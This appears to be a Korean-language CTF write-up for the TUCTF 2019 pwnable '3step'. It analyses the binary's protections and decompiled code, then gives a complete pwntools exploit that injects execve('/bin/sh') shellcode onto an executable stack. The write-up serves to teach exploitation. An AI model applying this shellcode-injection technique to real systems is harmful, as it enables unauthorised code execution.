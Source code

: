 +++
title = "TUCTF 2019 Pwnable 3step"
subtitle = "3step"

# Add a summary to display on homepage (optional).
summary = "pwnable 3step"

date = "2019-12-03T03:33:19+09:00"
publishDate = "2019-12-03T03:33:19+09:00"
expiryDate = ""

# Authors. Comma separated list, e.g. `["Bob Smith", "David Jones"]`.
authors = []

# Tags and categories
# For example, use `tags = []` for no tags, or the form `tags = ["A Tag", "Another Tag"]` for one or more tags.
tags = ['CTF', '2019', 'pwn', '3step']
categories = ['PWN']
keywords = ['CTF', '2019', 'pwn', '3step']

# Projects (optional).
#   Associate this post with one or more of your projects.
#   Simply enter your project's folder or file name without extension.
#   E.g. `projects = ["deep-learning"]` references 
#   `content/project/deep-learning/index.md`.
#   Otherwise, set `projects = []`.
# projects = ["internal-project"]

# Featured image
# To use, add an image named `featured.jpg/png` to your page's folder. 
[image]
  # Caption (optional)
  caption = ""

  # Focal point (optional)
  # Options: Smart, Center, TopLeft, Top, TopRight, Left, Right, BottomLeft, Bottom, BottomRight
  focal_point = ""

draft = false
+++

32bit 바이너리 `3step`와 접속 정보 `nc chal.tuctf.com 30504`가 주어졌습니다.
```py
>>> e = ELF('./3step')
[*] '/root/ctf/2019/tu/pwn/3step/3step'
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
```
i386 바이너리이고  
Full RELRO 이므로 GOT Overwrite는 아니며  
Canary가 있으므로 BOF는 아니고  
NX bit가 해제되어 있고 RWX 세그먼트가 있으므로 100% 스택에 쉘코드 실행 가능합니다.   
<br>

```plain
j3rrry@kali:3step# nc chal.tuctf.com 30504
Welcome to our 3-step program!
Try out complimentary snacks
0x5665000c
0xffb5c08c

Step 1: j3rrry
Step 2: j4rrry
Step 3: j5rrry
```
문제 서버에 접속해보면 16진수 2개를 알려준 다음 3 Step에 걸쳐서 입력을 받습니다.  
<br>

```c
void __cdecl pwnme()
{
  void (*v0)(void); // [sp+8h] [bp-20h]@1
  char buf; // [sp+Ch] [bp-1Ch]@1
  int v2; // [sp+1Ch] [bp-Ch]@1

  v2 = *MK_FP(__GS__, 20);
  puts("Try out complimentary snacks");
  printf("%p\n", &buf1);
  printf("%p\n\n", &buf);
  printf("Step 1: ");
  read(0, &buf1, 0x12);
  printf("Step 2: ");
  read(0, &buf, 0x10);
  printf("Step 3: ");
  read(0, &v0, 4);
  v0();
  if ( *MK_FP(__GS__, 20) != v2 )
    _stack_chk_fail_local();
}
```
바이너리를 디스어셈블링 해보면  
buf1과 buf의 주소를 출력해준다는 것을 알 수 있습니다.  
buf1은 bss 영역, buf는 스택 영역입니다.  
  
그리고 입력을 받는데 길이제한이 0x12, 0x10, 4로 매우 작습니다.  
쉘코드를 경량화하도록 커스텀을 해야하는데요.

# Exploit
```py
from pwn import *

def start():
    e = ELF('./3step')
    r = remote('chal.tuctf.com', 30504)

    return e, r

def info():
    r.recvuntil('0x')
    bss = int(r.recvline(), 16)
    stack = int(r.recvline(), 16)
    log.info(hex(bss) + ' bss')
    log.info(hex(stack) + ' stack')

    return bss, stack

def step1():
    r.recvuntil(': ')
    r.send('/bin/sh')

def step2():
    r.recvuntil(': ')
    r.send(shellcode)

def step3():
    r.recvuntil(': ')
    r.send(p32(stack))

if __name__ == '__main__':
    e, r = start()
    bss, stack = info()

    shellcode = '''
        mov ebx, {}
        xor ecx, ecx
        xor edx, edx
        xor eax, eax
        mov al, 0xb
        int 0x80
        mov al, 0xb
        int 0x80
    '''.format(bss)
    shellcode = asm(shellcode)

    step1()
    step2()
    step3()

    r.interactive()
```
